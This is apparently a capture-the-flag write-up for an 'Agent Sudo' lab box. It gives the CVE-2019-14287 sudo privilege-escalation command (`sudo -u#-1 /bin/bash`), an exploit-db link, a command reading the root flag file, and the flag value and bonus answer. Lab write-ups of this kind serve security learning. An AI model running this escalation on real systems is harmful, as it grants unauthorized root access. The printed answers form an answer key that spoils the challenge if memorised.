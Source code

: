 ### CVE number for the escalation

`sudo -l` returns
```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

https://www.exploit-db.com/exploits/47502

Lets
```
sudo -u#-1 /bin/bash`
whoami
```

Answer: `cve-2019-14287`

### What is the root flag?

`cat /root/root.txt`

Answer: `b53a02f55b57d4439e3341834d70c062`


### (Bonus) Who is Agent R?

Answer: `DesKel`
